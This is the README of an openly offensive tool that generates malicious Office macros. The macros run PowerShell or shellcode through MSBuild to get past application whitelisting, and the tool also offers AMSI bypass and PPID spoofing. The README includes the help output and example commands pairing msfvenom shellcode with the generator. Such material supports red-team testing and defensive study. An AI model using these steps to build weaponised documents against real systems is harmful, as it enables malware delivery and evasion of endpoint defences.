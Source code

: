 # Malicious Macro MSBuild Generator 2.0

## Description
Generates Malicious Macro and Execute Powershell or Shellcode via MSBuild Application Whitelisting Bypass.

## What is MSBuild

MSBuild.exe (Microsoft Build Engine) is a software build platform used by Visual Studio. It takes XML formatted project files that define requirements for building various platforms and configurations.  

Adversaries can use MSBuild to proxy execution of code through a trusted Windows utility. The inline task capability of MSBuild that was introduced in .NET version 4 allows for C# code to be inserted into the XML project file.  

MSBuild will compile and execute the inline task. MSBuild.exe is a signed Microsoft binary, so when it is used this way it can execute arbitrary code and bypass application whitelisting defenses that are configured to allow MSBuild.exe execution.

## Changelog
* Added Option Macro AMSI Bypass (Thanks to outflank team)
* Added PPID Spoofing {9BA05972-F6A8-11CF-A442-00A0C90A8F39}
* Added functionality auto removed csproj payload after execution
* Added custom msbuild option

## Usage
```
 /$$      /$$  /$$$$$$   /$$$$$$ 
| $$$    /$$$ /$$__  $$ /$$__  $$
| $$$$  /$$$$|__/  \ $$| $$  \__/
| $$ $$/$$ $$   /$$$$$/| $$ /$$$$
| $$  $$$| $$  |___  $$| $$|_  $$
| $$\  $ | $$ /$$  \ $$| $$  \ $$
| $$ \/  | $$|  $$$$$$/|  $$$$$$/
|__/     |__/ \______/  \______/ 

Malicious Macro MSBuild Generator v2.0
Author : Rahmat Nurfauzi (@infosecn1nja)
   
usage: m3-gen.py [-h] -i INPUTFILE -p PAYLOAD -o OUTPUT [-a]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUTFILE, --inputfile INPUTFILE
                        Input file you want to embed into the macro
  -p PAYLOAD, --payload PAYLOAD
                        Choose a payload for powershell or raw shellcode
  -o OUTPUT, --output OUTPUT
                        Output filename for the macro
  -a, --amsi_bypass     Macro AMSI Bypass Execute via ms office trusted location
```

## Example
* Choose a payload you want to test like shellcode or powershell
* Generate a raw shellcode in whatever framework you want (Cobalt Strike, Metasploit Framework)

`$ msfvenom -p windows/exec cmd="calc.exe" -f raw > payload.bin`  
`$ python M3G.py -p shellcode -i /path/payload.bin -o macro.vba`  
`$ python M3G.py -p powershell -i /path/payload.ps1 -o macro.vba`

## Links

* https://gist.github.com/subTee/6b236083da2fd6ddff216e434f257614
* http://subt0x10.blogspot.no/2017/04/bypassing-application-whitelisting.html
* https://msdn.microsoft.com/en-us/library/dd722601.aspx

## Credit
Rahmat Nurfauzi (@infosecn1nja)